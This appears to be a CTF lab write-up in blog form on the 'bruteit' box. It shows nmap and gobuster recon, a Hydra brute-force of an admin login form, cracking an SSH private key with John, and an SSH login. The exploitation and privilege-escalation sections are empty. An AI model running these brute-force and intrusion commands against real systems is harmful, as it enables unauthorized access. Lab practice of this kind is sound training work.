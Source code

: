 ```yaml
---
layout: post
author: Fr4nSec
tags: [Linux, HTTP POST]
---
```


## Objectives

- Username and password of the admin panel
- User flag
- Web flag
- root password
- root flag


## Recon

Let's scan the target IP address..

```
nmap -p 22,80 -sCV 10.10.201.153 > PortScan
cat PortScan
```
![scan1](/images/bruteit/scan1.png)

Port 80 is open. Let's see what's there:

```
gobuster dir -u http://10.10.201.153:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![gobuster](/images/bruteit/gobuster.png)

There is something at /admin (http://10.10.201.153/admin)

![adminpanel](/images/bruteit/adminpanel.png)

Always check the source code

![sourcecode](/images/bruteit/sourcecode.png)

Now we know the username is **'admin'** and notice the payload of the POST request. We can use this to brute force the login page. For this we will need a word from a failed attempt.

![request](/images/bruteit/request.png)

And we use Hydra to brute force

```
hydra -l admin -P /home/kali/rockyou.txt 10.10.201.153 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid"
```

![hydra](/images/bruteit/hydra.png)

We cracked the password of the panel admin account. Let's access.

![flag0](/images/bruteit/flag0.png)

 We have a flag now and a RSA private key that we can download. Let's crack it.
 
 ![john](/images/bruteit/john.png)
 
 Now we use the SSH Key to access the target (remember to make sure the SSH Key has the correct permissions.
 
 To change permissions:
 
  ```
chmod 600 id_rsa
```
 
 Let's connect:
 
 ```
ssh -i id_rsa john@10.10.201.153
```
 
 ![ssh1](/images/bruteit/ssh1.png)

## Exploitation




## Privilege escalation

